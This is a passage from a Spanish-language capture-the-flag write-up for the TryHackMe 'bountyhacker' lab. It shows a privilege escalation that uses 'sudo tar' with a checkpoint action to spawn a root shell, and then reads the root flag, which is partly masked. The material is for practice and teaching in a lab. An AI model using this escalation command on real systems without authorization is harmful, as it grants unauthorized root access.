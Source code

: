 ```bash
l**@bountyhacker:~/Desktop$     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

# whoami
root
```

Tras conseguir acceder como root, buscaremos los archivos que puedan existir en la carpeta root.

```bash
# cd root
# ls
root.txt
```

Por último haremos un cat al archivo para obtener la flag del root.

```bash
cat root.txt
THM{80UN******K3r}
```


## Contact

[📧 danielruizraposo02@gmail.com](mailto:danielruizraposo02@mail.com)
